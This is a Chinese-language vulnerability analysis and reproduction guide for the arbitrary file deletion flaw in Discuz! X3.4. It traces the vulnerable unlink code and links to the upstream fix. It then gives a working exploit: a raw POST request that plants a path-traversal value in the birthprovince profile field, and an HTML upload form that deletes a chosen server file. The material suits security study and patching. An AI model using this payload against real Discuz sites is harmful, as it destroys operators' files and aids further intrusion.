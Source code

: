 ```yaml
---
title: Discuz!x 3.4 任意文件删除漏洞
id: zhfly2877
---
```


# Discuz! X3.4 任意文件删除漏洞

## 一、漏洞简介

## 二、漏洞影响

影响版本：Discuz!x ≤3.4

## 三、复现过程

### 漏洞分析

Discuz!X的码云已经更新修复了该漏洞

https://gitee.com/ComsenzDiscuz/DiscuzX/commit/7d603a197c2717ef1d7e9ba654cf72aa42d3e574

核心问题在`upload/source/include/spacecp/spacecp_profile.php`

![image](../img/57551e2d43071499ca210847db70a756.png)

跟入代码70行

```
if(submitcheck('profilesubmit')) { 
```

当提交profilesubmit时进入判断，跟入177行

![image](../img/ca90335404595aec76e7c392e10aa4e9.png)

我们发现如果满足配置文件中某个formtype的类型为file，我们就可以进入判断逻辑，这里我们尝试把配置输出出来看看

![image](../img/4325367ebfcb597701ecb0f769230e75.png)

我们发现formtype字段和条件不符，这里代码的逻辑已经走不进去了

我们接着看这次修复的改动，可以发现228行再次引入语句unlink

```
@unlink(getglobal('setting/attachdir').'./profile/'.$space[$key]); 
```

回溯进入条件

![image](../img/432baa7253978eb11c1e598db4c10b37.png)

当上传文件并上传成功，即可进入unlink语句

![image](../img/aba7b29dc6a3b7896a1db6208e946d9b.png)

然后回溯变量`$space[$key]`,不难发现这就是用户的个人设置。

只要找到一个可以控制的变量即可，这里选择了birthprovince。

在设置页面直接提交就可以绕过字段内容的限制了。

![image](../img/34fd972f226f0b825a82f903d6200d6b.png)

成功实现了任意文件删除

### 漏洞复现

访问`http://your-ip/robots.txt`可见robots.txt是存在的：

![image](../img/c8238ef495c148b0e9f727efb707d74e.png)

注册用户后，在个人设置页面找到自己的formhash：

![image](../img/412990f05929e28289e588e55b41ef7a.png)

带上自己的Cookie、formhash发送如下数据包：

```
POST /home.php?mod=spacecp&ac=profile&op=base HTTP/1.1
Host: localhost
Content-Length: 367
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryPFvXyxL45f34L12s
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/61.0.3163.79 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,en;q=0.6
Cookie: [your cookie]
Connection: close

------WebKitFormBoundaryPFvXyxL45f34L12s

Content-Disposition: form-data; name=“formhash”

[your formhash]

------WebKitFormBoundaryPFvXyxL45f34L12s

Content-Disposition: form-data; name=“birthprovince”

…/…/…/robots.txt

------WebKitFormBoundaryPFvXyxL45f34L12s

Content-Disposition: form-data; name=“profilesubmit” `1

------WebKitFormBoundaryPFvXyxL45f34L12s–` 
```

提交成功之后，用户资料修改页面上的出生地就会显示成下图所示的状态：

![image](../img/8ad3aa07d22cc7cec869b6932601f184.png)

说明我们的脏数据已经进入数据库了。

然后，新建一个`upload.html`，代码如下，将其中的`[your-ip]`改成discuz的域名，`[form-hash]`改成你的formhash：

```
<body>
    <form action="http://[your-ip]/home.php?mod=spacecp&ac=profile&op=base&profilesubmit=1&formhash=[form-hash]" method="post" enctype="multipart/form-data">
        <input type="file" name="birthprovince" />
        <input type="submit" value="upload" />
    </form>
</body> 
```

用浏览器打开该页面，上传一个正常图片。此时脏数据应该已被提取出，漏洞已经利用结束。

再次访问`http://your-ip/robots.txt`，发现文件成功被删除：

![image](../img/edb2ec063a920a2c19995313433d625d.png)